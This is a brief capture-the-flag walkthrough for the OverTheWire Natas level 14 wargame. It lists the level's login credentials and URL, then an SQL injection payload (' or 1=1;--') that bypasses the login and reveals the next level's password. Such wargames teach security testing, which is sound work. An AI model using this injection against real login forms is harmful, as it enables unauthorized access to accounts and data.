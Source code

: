 [Category:OverTheWire-Natas](/Category:OverTheWire-Natas "wikilink")

Username: natas14 Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 URL:
<http://natas14.natas.labs.overthewire.org>

username=" or 1=1;-- \&password=asdf

`Successful login! The password for natas15 is AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J`